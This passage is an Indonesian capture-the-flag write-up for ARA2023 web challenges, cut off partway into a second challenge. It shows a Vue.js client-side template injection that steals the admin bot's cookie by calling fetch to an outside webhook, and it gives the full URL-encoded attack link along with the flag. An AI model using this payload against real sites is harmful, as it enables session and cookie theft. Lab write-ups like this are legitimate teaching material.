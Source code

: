### Technical Review
Pada challenge ini kita diberikan url website dan juga url admin bot. Untuk challenge ini kita bisa mengeksploitasinya menggunakan teknik CSTI (Client Side Template Injection) di Vue js. Saya mengambil reverensi dari website berikut https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti#v3

### Solution
Saat kita melihat source code dari html website ini, kita akan mengetahui bahwa website ini dibuat menggunakan Vue js. 

![](https://i.imgur.com/VYMJo49.png)

Karna parameter msg pada url mereflek ke halaman utama, saya mencoba teknik CSTI Vue menggunakan payload seperti berikut

```
{{_openBlock.constructor('alert(1)')()}}
```

Kita masukkan payloadnya ke parameter `msg` dan nanti kita akan mendapatkan alert seperti dibawah ini.

![](https://i.imgur.com/9CPLoGS.png)

Karena flagnya ada di admin cookie, sekarang kita tinggal mengambil flagnya menggunakan weebhook dengan payload seperti berikut.

```
{{_openBlock.constructor('fetch("https://eo5kw3d12uuuck1.m.pipedream.net?"+document.cookie)')()}}
```

Kita kirimkan urlnya ke bot

```
http://103.152.242.116:8413/?msg=%7B%7B%5FopenBlock%2Econstructor%28%27fetch%28%22https%3A%2F%2Feo5kw3d12uuuck1%2Em%2Epipedream%2Enet%3F%22%2Bdocument%2Ecookie%29%27%29%28%29%7D%7D
```
Dan nanti kita akan mendapatkan flagnya di webhooh.

![](https://i.imgur.com/a2rr4TU.png)

Flag: ARA2023{sUp3r_s3cr3t_c00k13_1s_h3r3}

## X-is for blabla
### Description
Recently my friend was buy helmet called RFC 2616, pretty strange huh?

http://103.152.242.116:5771/web.php

### Technical Review
Kita akan diberikan url website. Pada website ini kita perlu menebak header yang perlu dipakai.

### Solution
Saat kita inspek elemen pada source code html, kita akan menemukan url rahasia
